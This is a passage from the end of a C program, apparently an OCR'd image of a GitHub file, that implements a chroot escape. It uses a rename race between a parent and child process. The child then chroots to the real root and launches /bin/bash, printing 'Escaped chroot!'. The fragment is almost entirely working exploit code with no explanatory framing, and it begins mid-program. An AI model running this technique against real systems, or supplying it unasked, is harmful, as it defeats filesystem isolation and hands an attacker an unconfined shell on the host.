 ```c!
        sleep(2); // Wait for the parent to move the directory

        printf("[Child] Attempting to escape chroot...\n");
        if (movetotheroot() < 0) {
            perror("[Child] Failed to move to real root");
            exit(EXIT_FAILURE);
        }

        if (chroot(".") < 0) {
            perror("[Child] chroot to real root");
            exit(EXIT_FAILURE);
        }

        printf("[Child] Escaped chroot! Current directory:\n");
        system("ls /");
        system("/bin/bash");
        exit(EXIT_SUCCESS);
    } else {
        // Parent process
        sleep(1); // Wait for the child to enter chroot
        printf("[Parent] Moving %s to %s...\n", NESTED_DIR, NEW_DIR);
        if (rename(child_path, NEW_DIR) < 0) {
            perror("[Parent] rename");
            exit(EXIT_FAILURE);
        }

        // Wait for the child to complete
        wait(NULL);
        printf("[Parent] Cleanup complete.\n");
    }

    return 0;
}
```